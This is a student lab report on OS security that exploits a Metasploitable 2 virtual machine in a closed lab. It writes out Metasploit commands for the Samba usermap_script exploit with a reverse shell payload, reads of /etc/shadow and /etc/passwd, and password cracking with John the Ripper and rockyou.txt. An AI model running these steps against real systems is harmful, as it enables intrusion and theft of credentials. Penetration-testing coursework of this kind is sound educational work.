 # Lab 4 - OS Security

> Pair Assignment
>
> Igor Mpore (i.mpore@innopolis.university)
>
> Ahmed Nouralla (a.shaaban@innopolis.university)



<u>Target Machine</u>: Metasploitable 2 on Ahmed's host machine

<u>Attacker</u>: Igor's machine

## Part 1: Setting up the environment

First of all, we made sure that both machines are in the same network and then assigned them with static ips using this command:

```bash
sudo ip addr add <ip> dev eth0
```

The target machine had **10.0.0.4** and the attacker's machine had  **10.0.0.3** . Now, we proceed with preparing the target machine

### Target Machine

On the target machine, the VM was set using the tutorial from [this link](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/).  We used QEMU to set up our VM from [this tutorial](https://www.christitus.com/vm-setup-in-linux). After everything was ready, then the target machine was done and proceeded on trying to exploit it using <u>Metasploit Framework</u>

<u>**Metaspoit Network**</u>: The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. More details can be found [here](https://www.metasploit.com/)

### Attacker's Machine

The attacker's machine already had Kali Linux installed and MSF was already installed and ready. 

## Part 2: Exploitation

Not we proceeded checking the open ports using nmap command (port scanning nmap commands can be found [here](https://www.stationx.net/nmap-cheat-sheet/)):

```bash
nmap 10.0.0.4 -A
```

Eventhough we did the port scanning, we already knew that samba was running on port 139 which we will be exploiting.

```bash
use exploit/multi/samba/usermap_script
set RHOST 10.0.0.4
set LHOST 10.1.1.3
set PAYLOAD /cmd/unix/reverse
exploit
```

![image-20220213200814522](/home/koala/.config/Typora/typora-user-images/image-20220213200814522.png)

After using the exploit command, the reverse TCP handler was already open on the target machine and it was ready for further exploitation.

Here are the steps followed next:

- Run `cat /etc/shadow` and copy output to attacker machine in file named shadow

- Run `cat /etc/passwd` and copy output to attacker machine in file named pass

- Run `unshadow pass shadow > unshadow` to combine the two files into `unshadow` file

- Downloaded `rockyou.txt` password list from [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) 

- We then Used john the ripper to crack the passwords by running `john --wordlist=rockyou.txt unshadow`

- here is the screenshot of results:

   ![image-20220213202027879](/home/koala/.config/Typora/typora-user-images/image-20220213202027879.png)

That's all for this exercise.
